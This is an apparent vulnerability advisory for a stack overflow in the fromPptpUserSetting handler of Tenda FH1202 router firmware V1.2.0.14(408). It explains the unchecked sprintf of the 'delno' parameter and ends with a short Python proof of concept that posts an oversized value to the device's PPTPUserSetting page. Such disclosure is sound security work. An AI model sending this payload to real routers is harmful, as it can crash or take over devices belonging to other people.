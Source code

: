 # Tenda FH1202 fromPptpUserSetting
### Overview
vendor: Tenda

product: FH1202

version: V1.2.0.14(408)

type: Stack Overflow
### Vulnerability Description
Tenda FH1202 V1.2.0.14(408) were discovered to contain a stack overflow via the delno parameter in the fromPptpUserSetting function.

### Vulnerability details
In function fromPptpUserSetting line 17, it reads in a user-provided parameter `delno`, and the variable Var is assigned to the variable `s`. Then, the variable s is  passed to the `sprintf` function without any length check, which may overflow the stack-based buffer `s_4`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/8.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/PPTPUserSetting"

data = {
    "delno": "a" * 1000
}

response = requests.post(url, data=data)
print(response.text)
```

![](images/9.png)
